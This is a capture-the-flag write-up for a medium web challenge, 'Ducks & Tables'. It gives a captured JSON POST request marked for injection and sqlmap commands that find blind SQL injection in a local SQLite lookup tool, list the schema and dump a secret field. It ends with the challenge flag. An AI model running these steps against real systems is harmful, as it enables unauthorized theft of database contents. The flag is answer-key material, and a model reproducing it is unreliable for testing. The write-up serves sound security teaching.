


# Ducks & Tables
**Category**: web
**Author**: doggodile
**Difficulty**: Medium (300pts)

### Description
There is nothing insecure about a simple database look up tool - or is there?

Flag format: quack{...}

### Solution

Capture a request & replace the value with an injection indicator "*"
```
POST /duck HTTP/1.1
Accept: */*
Content-Length: 24
Host: localhost:3000
Origin: http://localhost:3000
Referer: http://localhost:3000/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36 Edg/128.0.0.0
content-type: application/json

{"duck":"*"}
```

Find Vulnerability
```
python3 sqlmap.py -r request 
```


Run a blindsql tool & Find out what there is to steal
```
python3 sqlmap.py -r request --dbms=sqlite --schema
```
(You can also find it in the HTTP response of a request, but not that secret exists!
)


Run a blindsql tool to dump the secret field
```
python3 sqlmap.py -r request --dbms=sqlite --dump --where="secret IS NOT NULL:
```



```
quack{s0_a_bl1nd_duck_w4lks_1nt0_a_t4bl3_4nd_s4y5_wh0_m0v3d_th3_p0nd?}
```